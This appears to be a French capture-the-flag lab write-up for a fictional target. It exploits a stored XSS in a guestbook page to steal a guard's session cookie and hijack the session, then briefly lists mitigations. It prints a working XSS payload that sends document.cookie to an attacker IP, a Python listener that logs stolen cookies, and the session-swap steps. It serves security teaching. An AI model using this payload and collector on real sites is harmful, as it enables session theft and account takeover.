 # 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** `lannisport.south`
- **Page vulnérable :** `livre_dor.php`
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
    xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python {filename="capture_server.py"}                                                                
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Access-Control-Allow-Origin", "*")  # Permet les requêtes CORS
        self.end_headers()

        if "cookie=" in self.path:
            cookie = self.path.split("cookie=", 1)[1]  # Prend toute la valeur du cookie après "cookie="
            cookie = urllib.parse.unquote(cookie)  # Décode les caractères URL-encoded (%3D devient =)
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")

if __name__ == "__main__":
    server_address = ('10.10.10.20', 8000)  # IP Kali
    httpd = HTTPServer(server_address, Handler)
    print("Serveur en écoute sur le port 8000...")
    httpd.serve_forever()
```
*Veuillez changer l'**IP** en fonction de celle mise sur Kali*

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - Ubuntu Desktop)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```

✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (`F12`) > **Application** > **Cookies**.
- Modifier `PHPSESSID` avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer `HttpOnly` sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (`htmlspecialchars()`) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥